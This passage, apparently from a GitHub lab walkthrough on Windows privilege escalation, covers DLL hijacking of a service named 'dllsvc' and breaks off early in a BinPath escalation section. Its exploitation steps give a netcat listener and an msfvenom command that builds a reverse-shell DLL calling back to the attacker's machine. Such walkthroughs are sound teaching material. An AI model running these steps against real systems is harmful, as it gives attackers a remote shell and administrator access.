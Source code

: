 ![image](https://user-images.githubusercontent.com/59029171/161053850-6638a245-75dd-43ea-bbe9-6fecd33ad4c5.png)
![image](https://user-images.githubusercontent.com/59029171/161053869-d2daa643-a03a-4956-a2f0-d5e74457d816.png)

9. Open command prompt and type: 
```console
C:\Temp> sc start dllsvc
```
![image](https://user-images.githubusercontent.com/59029171/161053895-44130b44-4f86-4fe7-8ed2-0f9721fb5896.png)

10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute `'C:\Temp\hijackme.dll'` yet it could not do that as the file was not found. Note that `'C:\Temp'` is a writable location.
![image](https://user-images.githubusercontent.com/59029171/161053920-4af50faa-c6ec-487e-9ec5-142907940e3c.png)

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f dll -o hijackme.dll
```

3. Copy the generated file `hijackme.dll`, to the Windows VM.

### Windows VM

1. Place `hijackme.dll` in` 'C:\Temp'`
2. Open command prompt and type: 
```console
C:\Temp> sc stop dllsvc & sc start dllsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">BinPath</span>

## <span style="color:lightgreen">Methodology</span>

BinPath is a type of Service Escalation. We can gain administrator privileges if we write access and restart access on any service. We can abuse this function by injecting our malicious BinPath to get executed once restarted.

## <span style="color:lightgreen">Detection</span>
